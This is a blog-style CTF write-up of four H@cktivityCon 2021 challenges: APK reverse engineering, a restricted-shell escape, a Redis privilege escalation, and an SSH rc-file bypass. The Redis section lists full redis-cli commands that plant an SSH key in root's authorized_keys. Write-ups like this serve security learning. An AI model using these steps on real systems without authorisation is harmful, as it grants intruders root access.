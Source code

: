 +++
title = "H@cktivityCon 2021 CTF Writeup"
date = "2021-09-18"
author = ""
authorTwitter = "" #do not include @
tags = ["CTF"]
keywords = ["", ""]
description = ""
showFullContent = false
toc = true
cover = "/img/hacktivitycon-2021/hacktivity.jpeg"
images = ["/img/hacktivitycon-2021/hacktivity.jpeg"]
+++



## Introduction

H@cktivityCon 2021 was happening over the weekend and I participated in their ctf with team [@fr334aks](https://twitter.com/fr334aks). We managed position 49 out of 2527 teams.
This writeup is of the challenges I managed to solve.

## Challenges

### 1. Mobile: To Do

Challenge Description:

{{< image src="/img/hacktivitycon-2021/to-do-1.png" alt="" position="center" style="border-radius: 8px;" >}}

We are provided with an apk file. First thing I typically do with apk files is open them with jadx-gui. 

```sh
jadx-gui todo.apk
```

Here I first look at the AndroidManifest.xml to see the application entry point. 

{{< image src="/img/hacktivitycon-2021/to-do-2.png" alt="" position="center" style="border-radius: 8px;" >}}

For this app it's LoginActivity. It checks if the input provided is equal to `testtest` and if true it goes on to load MainActivity.

{{< image src="/img/hacktivitycon-2021/to-do-3.png" alt="" position="center" style="border-radius: 8px;" >}}

When we install the application and supply the password as `testtest` we get the flag.

{{< image src="/img/hacktivitycon-2021/to-do-5.png" alt="" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/hacktivitycon-2021/to-do-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately I couldn't copy it out and typing it would have been a pain. Back on the MainActivity we see it loads MyDatabase.

{{< image src="/img/hacktivitycon-2021/to-do-4.png" alt="" position="center" style="border-radius: 8px;" >}}

When we look at MyDatabase, it loads an sqlite database `todos.db`. A lot of the times sqlitedb database in android apps are stored within
the apk.

{{< image src="/img/hacktivitycon-2021/to-do-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Extracting the apk using apktool I was able to access the sqlitedb and extract the flag.

{{< image src="/img/hacktivitycon-2021/to-do-8.png" alt="" position="center" style="border-radius: 8px;" >}}

### 2. Miscellaneous: Shelle 

Challenge Description:

{{< image src="/img/hacktivitycon-2021/shelle-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we connect to the challenge, we get access to a restricted shell with only a few commands we can run.

{{< image src="/img/hacktivitycon-2021/shelle-2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we read the assignment, we are told the flag is in the /opt directory.

{{< image src="/img/hacktivitycon-2021/shelle-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately we can't access it.

{{< image src="/img/hacktivitycon-2021/shelle-4.png" alt="" position="center" style="border-radius: 8px;" >}}

Next I tried to see if we can access any environment variables and see if the `$` character is forbidden as well.
Luckily this works.

{{< image src="/img/hacktivitycon-2021/shelle-5.png" alt="" position="center" style="border-radius: 8px;" >}}

I then ran `set` to list all environment variables. Looking through the list I saw one set to bash.

{{< image src="/img/hacktivitycon-2021/shelle-6.png" alt="" position="center" style="border-radius: 8px;" >}}

I was able to use it to escape the restricted shell and read the flag.

{{< image src="/img/hacktivitycon-2021/shelle-7.png" alt="" position="center" style="border-radius: 8px;" >}}

### 3. Miscellaneous: Redlike

Challenge Description:

{{< image src="/img/hacktivitycon-2021/redlike-1.png" alt="" position="center" style="border-radius: 8px;" >}}

After sshing into the challenge machine, I performed some local enumeration and when checking for running processes
we see redis running locally as root. Clearly this is the privesc path.

{{< image src="/img/hacktivitycon-2021/redlike-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I immediately jumped to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh) and used the below commands to escalate privileges.

```sh
ssh-keygen -f redis

(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > spaced_key.txt

cat spaced_key.txt | redis-cli -h 127.0.0.1 -x set ssh_key

redis-cli -h 127.0.0.1

config set dir /root/.ssh

config set dbfilename "authorized_keys"

save

chmod 600 redis

ssh -i redis root@127.0.0.1
```

{{< image src="/img/hacktivitycon-2021/redlike-3.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4. Miscellaneous: Race Car

Challenge Description:

{{< image src="/img/hacktivitycon-2021/racecar-1.png" alt="" position="center" style="border-radius: 8px;" >}}

I enjoyed this one as I was the second to solve it.

When we ssh into the challenge machine, the session is immediately closed when we provide the password.

{{< image src="/img/hacktivitycon-2021/racecar-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I tried different techniques I knew for restricted shell bypass with ssh but none worked. I got an idea to use sftp and 
see what configuration files could be causing this behaviour.

With sftp we are not kicked out and can look at files. Two files seem to be of interest but only `rc` in .ssh has contents.

{{< image src="/img/hacktivitycon-2021/racecar-3.png" alt="" position="center" style="border-radius: 8px;" >}}

The rc file is the one responsible for getting us kicked out. I tried deleting it but that didn't work. However, since we have write 
permissions, I was able to overwrite it by uploading an empty file with the same name.

Once that was done we can ssh and get the flag.

{{< image src="/img/hacktivitycon-2021/racecar-4.png" alt="" position="center" style="border-radius: 8px;" >}}


## Conclusion

Thanks HackerOne, John Hammond and the CTF challenge creators, it was a fun one!
